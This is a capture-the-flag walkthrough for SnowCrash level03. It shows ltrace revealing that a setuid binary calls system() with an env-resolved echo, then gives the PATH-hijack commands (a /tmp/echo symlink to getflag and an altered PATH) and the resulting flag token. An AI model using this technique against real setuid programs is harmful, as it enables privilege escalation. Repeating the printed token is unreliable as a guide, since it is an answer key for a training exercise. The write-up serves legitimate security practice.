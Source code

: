in this level when we run ls we found : 
level03@SnowCrash:~$ ls
level03
level03@SnowCrash:~$ ls -la 
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

so when we run the level03 we get : 
level03@SnowCrash:~$ ./level03 
Exploit me


and when we use ltrace : 
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                          = 2003
geteuid()                                          = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                             = 0
+++ exited (status 0) +++


so we see echo : 
system("/usr/bin/env echo Exploit me"Exploit me


so if we change the behavor of echo to run getflag we get the flag : 
 ln -s /bin/getflag /tmp/echo

and : 

 export PATH=/tmp:$PATH



WHEN WE run ./level03 we get the flag : 

level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
